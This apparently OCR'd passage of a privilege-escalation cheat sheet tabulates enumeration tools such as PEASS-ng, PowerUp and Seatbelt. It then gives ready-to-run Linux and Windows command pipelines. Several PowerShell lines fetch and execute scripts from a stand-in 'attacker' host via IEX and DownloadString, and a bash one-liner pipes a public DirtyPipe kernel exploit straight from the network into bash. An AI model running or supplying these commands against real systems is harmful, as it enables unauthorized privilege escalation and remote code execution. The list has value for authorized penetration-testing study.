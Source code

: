 ***

### IV. 🧠 Cross-Platform Enumeration Frameworks

| Tool                           | OS            | Description                         |
| ------------------------------ | ------------- | ----------------------------------- |
| **PEASS-ng (linpeas/winpeas)** | Linux/Windows | Comprehensive automated PrivEsc     |
| **LES / WinExploitSuggester**  | Linux/Windows | Kernel & patch vulnerability mapper |
| **LinEnum / PowerUp**          | Linux/Windows | Lightweight script-based checks     |
| **pspy / ProcMon**             | Linux/Windows | Process and job monitoring          |
| **SharpUp / Seatbelt**         | Windows       | Stealth enumeration (C# binaries)   |

***

### V. ⚙️ Automation Pipelines

#### 🧠 1. Fully Automated Linux Enumeration

```bash
chmod +x linpeas.sh LinEnum.sh
./linpeas.sh -a > peas.log
./LinEnum.sh -t > linenum.log
cat peas.log linenum.log > combined.txt
grep -E "SUID|sudo|cron|password|writable" combined.txt
```

#### 🧠 2. Windows Chained Recon

```powershell
Start-Process winPEASx64.exe
IEX(New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1');Invoke-AllChecks
Seatbelt.exe -group=system
```

***

### VI. ⚔️ Automated Exploit Execution

#### 🧩 Linux Example: DirtyPipe Auto-Exploit

```bash
bash <(curl -s https://raw.githubusercontent.com/Almorabea/dirtypipez-exploit/main/dirtypipez.sh)
```

#### 💣 Windows Example: Kernel Exploit Chain

```powershell
windows-exploit-suggester.py --database db.xls --systeminfo sysinfo.txt
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://attacker/Exploit.ps1')
```

***
